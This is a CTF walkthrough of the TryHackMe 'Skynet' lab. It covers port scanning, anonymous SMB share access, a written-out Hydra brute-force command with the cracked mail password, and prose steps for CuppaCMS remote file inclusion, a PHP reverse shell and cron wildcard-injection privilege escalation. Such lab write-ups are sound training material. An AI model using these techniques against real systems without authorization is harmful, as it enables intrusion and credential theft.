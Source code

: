 ```yaml
---
description: https://tryhackme.com/room/skynet
---
```


# 🎿 Skynet

## Writeup/Walkthrough

### Task 1: Initial Enumeration

The first step is to perform an initial enumeration using the Nmap tool. The results show an Ubuntu Linux machine with various open ports, including SSH, HTTP, POP3, IMAP, and SMB. Notably, the HTTP service is running on port 80.

```
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (EdDSA)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES SASL CAPA AUTH-RESP-CODE PIPELINING TOP UIDL
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: Pre-login capabilities ENABLE LOGIN-REFERRALS ID SASL-IR have OK LOGINDISABLEDA0001 post-login listed LITERAL+ IMAP4rev1 IDLE more
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:8E:4C:0C:07:19 (Unknown)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 2: SMB Enumeration

The next step involves using `enum4linux` to enumerate the SMB service. Two shares are discovered: "Anonymous" and "milesdyson." While the "Anonymous" share is accessible without a password, the "milesdyson" share requires authentication.

```
root@ip-10-10-58-139:~# smbclient -L //10.10.194.35
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
```

Connecting to the "Anonymous" share reveals files containing information about the SMB password being changed. The potential username is "milesdyson," and a wordlist is found in the file `log1.txt`.

```
root@ip-10-10-58-139:~# smbclient //10.10.194.35/anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 16:04:00 2020
  ..                                  D        0  Tue Sep 17 08:20:17 2019
  attention.txt                       N      163  Wed Sep 18 04:04:59 2019
  logs                                D        0  Wed Sep 18 05:42:16 2019

		9204224 blocks of size 1024. 5809964 blocks available
smb: \> get attention.txt
getting file \attention.txt of size 163 as attention.txt (79.6 KiloBytes/sec) (average 79.6 KiloBytes/sec)

cd into the log file and retrieve the files:

smb: \> cd logs\
smb: \logs\> ls
  .                                   D        0  Wed Sep 18 05:42:16 2019
  ..                                  D        0  Thu Nov 26 16:04:00 2020
  log2.txt                            N        0  Wed Sep 18 05:42:13 2019
  log1.txt                            N      471  Wed Sep 18 05:41:59 2019
  log3.txt                            N        0  Wed Sep 18 05:42:16 2019

		9204224 blocks of size 1024. 5809636 blocks available
smb: \logs\> get logs1.txt
NT_STATUS_OBJECT_NAME_NOT_FOUND opening remote file \logs\logs1.txt
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (230.0 KiloBytes/sec) (average 230.0 KiloBytes/sec)
```

### Task 3: Web Server Enumeration

Dirb is used to scan the web server for hidden directories. A hidden directory, "/squirrelmail," is discovered. Further investigation reveals a login page. Hydra is employed to brute force the login page using the username "milesdyson" and the password list from `log1.txt`.

```
root@ip-10-10-58-139:~# hydra -l milesdyson -P log1.txt 10.10.194.35 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect" -t 20
```

### Task 4: Email Password Retrieval

The brute force attack is successful, and the password for Miles's emails is found to be "cyborg007haloterminator." Using this password, access is gained to the email account.

```
[80][http-post-form] host: 10.10.194.35   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
```

### Task 5: Hidden Directory and Web Application Exploitation

The hidden directory "/45kra24zxs28v3yd" is discovered. Dirb is used again to find additional hidden directories, revealing "/administrator" running CuppaCMS. A searchsploit query identifies a vulnerability related to Remote File Inclusion (RFI).

### Task 6: Exploiting RFI for Reverse Shell

The RFI vulnerability is exploited by downloading a PHP reverse shell from revshells.com. A local HTTP server is started, and the reverse shell is requested from the target machine using the provided link.

### Task 7: Privilege Escalation

A shell is obtained, and further enumeration reveals the user flag in "/home/milesdyson." In the "/home/milesdyson/backups" directory, a script named "backup.sh" is found, executed every minute. Wildcard injection is used to append commands to the script, ultimately leading to a root shell.

### Task 8: Root Flag

With root access, the root flag is located in "/root/root.txt."

###
